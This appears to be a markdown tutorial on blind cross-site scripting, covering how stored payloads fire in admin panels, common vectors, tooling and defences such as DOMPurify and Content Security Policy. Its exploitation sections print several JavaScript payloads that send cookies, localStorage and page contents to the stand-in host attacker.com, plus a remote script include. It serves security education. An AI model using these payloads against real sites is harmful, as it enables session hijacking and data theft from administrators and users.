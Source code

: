 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```


---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  

### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain text in admin dashboards.  
- Use iframes with sandbox attributes for unsafe content.  

---

## **Real-World Examples**  
